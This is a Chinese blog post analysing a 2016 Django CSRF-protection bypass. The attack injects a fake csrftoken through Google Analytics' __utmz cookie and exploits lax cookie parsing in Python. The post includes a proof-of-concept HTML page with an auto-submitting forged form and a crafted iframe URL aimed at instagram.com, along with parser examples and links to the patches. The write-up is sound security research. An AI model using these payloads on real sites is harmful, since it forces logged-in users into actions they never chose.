 ```yaml
---
id: 753
layout: post
title: 'Django CSRF 防护绕过漏洞分析'
date: 2016-09-27 13:28:00
author: virusdefender
tags: 
---
```


原始漏洞链接 https://hackerone.com/reports/26647

## 使用 Google Analytics 进行 Cookie 注入

 - Google Analytics 会设置这样的 Cookie 来追踪用户访问

```
__utmz=123456.123456789.11.2.utmcsr=[HOST]|utmccn=(referral)|utmcmd=referral|utmcct=[PATH]
```
比如

```
__utmz=123456.123456789.11.2.utmcsr=blackfan.ru|utmccn=(referral)|utmcmd=referral|utmcct=/path/
```

 - 用户可以完全控制 referer 中的 path，然后在放入`__utmz`的时候没有过滤


## 不同的 web server 对 Cookie parse 结果的不同

 - 一个正常的Cookie是这样子的 `Cookie: param1=value1; param2=value2;`
 - 但是很多 web server 也可以接收使用逗号分隔的


```js
Cookie: param1=value2, param2=value2
Cookie: param1=value2,param2=value2
``` 
 
Python 和 Django 使用了不正确的正则表达式来 parse Cookie，导致用户也可以使用`[]`来作为分隔符 `Cookie: param1=value1]param2=value2`
  
参考
  
 - https://docs.python.org/3/library/http.cookies.html
 - http://hg.python.org/cpython/file/3.4/Lib/http/cookies.py#l432
 - http://tools.ietf.org/html/rfc2109
 - http://tools.ietf.org/html/rfc2068

例子
 
```python
 >>> from http import cookies
 >>> C = cookies.SimpleCookie()
 >>> C.load('__utmz=blah]csrftoken=x')
 >>> C
 <SimpleCookie: csrftoken='x'>
```

## 不同的浏览器对 Cookie 处理结果的不同

除了 Safari 之外，其他的浏览器都可以在 Cookie value 中使用空格、逗号和`[]`字符。

而且 Chrome 只可以处理有限的 Cookie 属性，比如

```
Set-Cookie: test=test; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=blah.blah.blah.google.com;
```

最终只能给`.google.com`而不是`blah.blah.blah.google.com`设置上 Cookie

## 综合在一起利用

### 条件是

 - 网站使用 Google Analytics
 - 网站使用的 server 或后端有 Cookie 解析的问题，比如 Django
 - 网站使用了基于 Cookie 的 CSRF 防护方法

### 结果
 
 - 我们可以设置任意的 Cookie 或者覆盖已有的 Cookie
 - 这个网站就有 CSRF 防护绕过的问题
 
### POC

使用 Chrome 可以在 instagram.com 上复现这个问题

 - 打开 Chrome 隐身模式
 - 登录 instagram.com
 - 点击下面的链接，然后稍等
 - 然后你就会关注了 http://instagram.com/black2fan

`http://blackfan.ru/facebookbugbounty/nouysqaqfbskgobuqkknoitvyqmjgony_instagram.html`的源码是

```html
<form 
action="http://instagram.com/web/friendships/1312928755/follow/?ref=emptyfeed" 
id="csrf" 
method="POST">
      <input type="hidden" name="csrfmiddlewaretoken" value="x" />
      <input type="submit" value="Submit request" />
</form>
<script>
      function xxx() {
        document.getElementById('csrf').submit();
      }
</script>
<iframe 
onload="xxx()" 
src="http://blackfan.ru/r/,]csrftoken=x,;domain=.instagram.com;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;?r=http://blog.instagram.com/"/>
```

### 描述

 - 用户已经登录了 instagram.com
 - 让用户访问下面的链接，同时假设他没有访问过`blog.instagram.com`，也没有这个子域名的`__utmz`。
 
```
http://blackfan.ru/r/,]csrftoken=x,;domain=.instagram.com;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;?r=http://blog.instagram.com/
```

这时候，Cookie 就会使用新的 path 和 domain，`.instgram.com` 就会被设置一个新的 Cookie `_utmz=90378079.1401435337.1.1.utmcsr=blackfan.ru|utmccn=(referral)|utmcmd=referral|utmcct=/r/,]csrftoken=x`

 - 这时候，服务器就会认为 Cookie 中的`__utmz`是错误的格式，CSRF token是`x`
 - 使用 CSRF token 提交上面的表单

## 修复

Python 的 patch 是 https://hg.python.org/cpython/rev/270f61ec1157，但是后来发现还是有问题的，比如

```python
C = cookies.SimpleCookie()
C.load('__utmz=blah csrftoken=x')
C.load('__utmz=blah\x09csrftoken=x')
C.load('__utmz=blah\x0bcsrftoken=x')
C.load('__utmz=blah\x0ccsrftoken=x') 
```

仍然会被解析为两个 Cookie，但是实际的浏览器处理并不一样

 - IE 浏览器会把`\x09 \x0b \x0c`替换为下划线
 - Chrome 会忽略这种 Cookie
 - Google Analytics 会把空格替换为 `%20`，当然这不重要，因为其他的 JS 也可能有问题

但是 Firefox 是支持所有的字符的，所以可以这样利用
 - 移除 instgram.com 的所有 Cookie
 - 使用 Firefox 打开 `http://instagram.com/?utm_source=1&utm_medium=2&utm_campaign=3&utm_term=4&utm_content=5%09csrftoken=x#`
 - 刷新页面，你会发现 `csrftoken=x`

最近 Django 修复了这个问题，https://www.djangoproject.com/weblog/2016/sep/26/security-releases/，使用了简单的 parse Cookie 的方法，https://github.com/django/django/commit/d1bc980db1c0fffd6d60677e62f70beadb9fe64a，虽然不太标准，但是已经足够了。

## 思考
 - Twitter的这个公开的更早 https://hackerone.com/reports/14883
 - 这个可以称为是 HTTP 参数污染了，这个手段在绕过部分WAF防护的时候还是有用的。比如`ngx_lua_waf` 的绕过，因为乌云无法访问，我截图放出来 https://dn-virusdefender-blog.qbox.me/ngx_lua_waf_hpp.png
 - https://www.owasp.org/index.php/Testing_for_HTTP_Parameter_pollution_(OTG-INPVAL-004) https://www.exploit-db.com/docs/17534.pdf 这里有一些总结
 - 覆盖Cookie进行绕过CSRF防护 https://www.leavesongs.com/HTML/zhihu-xss-worm.html
 - 很多 RFC 规范太蛋疼
 
